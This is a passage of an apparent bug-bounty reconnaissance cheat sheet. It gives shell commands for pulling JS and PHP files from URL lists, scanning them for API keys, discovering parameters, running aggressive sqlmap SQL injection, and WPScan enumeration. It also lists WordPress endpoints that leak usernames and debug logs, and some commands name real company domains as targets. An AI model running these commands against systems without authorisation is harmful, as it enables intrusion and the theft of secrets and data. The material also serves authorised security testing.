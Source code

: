 ## **1️⃣1️⃣ Extract JavaScript & PHP Files**

```sh
# Extract JavaScript files
cat allurls.txt | grep -E "\.js$" >> js.txt

# Extract PHP files
cat allurls.txt | grep -E "\.php$" >> php.txt
```

## **1️⃣2️⃣ Analyze JavaScript for API Keys & Secrets**

```sh
# Extract API keys with Mantra
cat js.txt | mantra

# Scan JavaScript exposure with Nuclei
nuclei -l js.txt -t /root/nuclei-templates/http/exposures/
```

## **1️⃣3️⃣ Extract Parameters from PHP Files Using Arjun**

```sh
arjun -i php.txt >> arjun.txt
```

## **1️⃣4️⃣ SQL Injection Testing**

```sh
# Identified parameter in target URL
sqlmap -u "https://mars.com/file.php?id=*" --risk 3 --level 5 --random-agent --banner --batch --dbs --ignore-code 403

# POST request example
sqlmap -u "https://mars.com" --data "id=*&name=*&x=*" --dbs --banner --batch
```

## **1️⃣5️⃣ WordPress Security Testing with WPScan**

```sh
wpscan --url https://target.com --disable-tls-checks --api-token YOUR_API_TOKEN -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
```

### **Common WordPress Endpoints for Username Exposure**

```sh
/wp-json/wp/v2/users
/wp-json/?rest_route=/wp/v2/users/
/wp-json/?rest_route=/wp/v2/users/n
/index.php?rest_route=/wp-json/wp/v2/users
/index.php?rest_route=/wp/v2/users
/author-sitemap.xml
/wp-content/debug.log
/wp-login.php?action=register
/wp-content/uploads/
```

### **Exploring Historical Website Data**

```sh
https://web.archive.org/cdx/search/cdx?url=*.rockstarenergy.com&fl=original&collapse=urlkey
```

---
